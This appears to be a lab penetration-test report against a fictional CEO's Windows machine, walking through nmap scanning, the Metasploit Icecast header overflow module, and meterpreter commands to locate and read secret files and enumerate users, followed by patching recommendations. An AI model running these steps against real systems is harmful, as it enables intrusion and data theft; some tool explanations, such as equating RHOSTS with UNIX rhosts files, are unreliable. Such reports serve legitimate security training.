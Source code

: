     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 

- nmap -sS -sV -O 192.168.0.20

    - nmap: allows you to scan your network and discover not only everything connected to it.
    - -sS: its for TCP SYN port scan.
    - -sV: it is determine the version of the service running on port. 
    - -O: is the Remote OS detection using TCP/IP.

After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    - Msfconsole.
    
    - Search icecast.
    
    - Use 0.

- The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 
- MSFconsole provides a command line interface to access and work with the Metasploit.

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    - set RHOSTS 192.168.0.20.
    - run.

**Rhosts allows me to log in to a UNIX-based system from another computer on the same network.**
**The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password.**

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.

    - meterpreter > search -f *secret*.

OR
    
    - meterpreter > shell.

**Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.**
**Shell is a software program that provides direct communication between you and the operating system or application, providing an environment to automate IT operations.**

    The search of the secret 
![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    
    - meterpreter > search -f *recipe*
    - meterpreter > cd 'C:\Users/IEUser/Documents
    - meterpreter > ls
    - meterpreter > cat Drinks.recipe.txt
    - meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    - meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    - run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.